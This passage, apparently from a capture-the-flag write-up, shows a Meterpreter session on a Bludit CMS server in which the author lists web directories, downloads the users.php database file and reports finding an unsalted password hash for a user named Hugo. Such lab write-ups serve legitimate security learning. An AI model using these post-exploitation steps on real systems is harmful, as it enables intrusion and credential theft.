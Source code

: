 ```text
100644/rw-r--r--  1083   fil   2019-10-19 04:10:46 -0400  LICENSE
100644/rw-r--r--  2893   fil   2019-10-19 04:10:46 -0400  README.md
40755/rwxr-xr-x   4096   dir   2020-05-19 05:03:34 -0400  bl-content
40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  bl-kernel
40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  bl-languages
40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  bl-plugins
40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  bl-themes
100644/rw-r--r--  900    fil   2020-05-19 06:27:40 -0400  index.php
100644/rw-r--r--  20306  fil   2019-10-19 04:10:46 -0400  install.php

meterpreter > cd bl-content
meterpreter > ls
Listing: /var/www/bludit-3.10.0a/bl-content
===========================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2020-05-19 05:10:14 -0400  databases
40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  pages
40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  tmp
40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  uploads
40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  workspaces

meterpreter > cd databases
meterpreter > ls
Listing: /var/www/bludit-3.10.0a/bl-content/databases
=====================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  438    fil   2020-05-19 05:03:34 -0400  categories.php
100644/rw-r--r--  3437   fil   2020-05-19 05:03:34 -0400  pages.php
40755/rwxr-xr-x   4096   dir   2020-05-19 05:03:34 -0400  plugins
100644/rw-r--r--  42844  fil   2020-05-19 05:03:34 -0400  security.php
100644/rw-r--r--  1319   fil   2020-05-19 05:03:34 -0400  site.php
100644/rw-r--r--  2276   fil   2020-05-19 05:03:34 -0400  syslog.php
100644/rw-r--r--  52     fil   2020-05-19 05:03:34 -0400  tags.php
100644/rw-r--r--  597    fil   2020-05-19 05:10:13 -0400  users.php

meterpreter > download users.php
[*] Downloading: users.php -> users.php
[*] Downloaded 597.00 B of 597.00 B (100.0%): users.php -> users.php
[*] download   : users.php -> users.php
```

In the www folder I found that a newer version of the Bludit CMS had been installed. I hoped that I would find a newer version of the database, and was not disappointed.

### Finding user creds

The updated `users.php` file contained an \(un-salted!\) hash for the user Hugo.
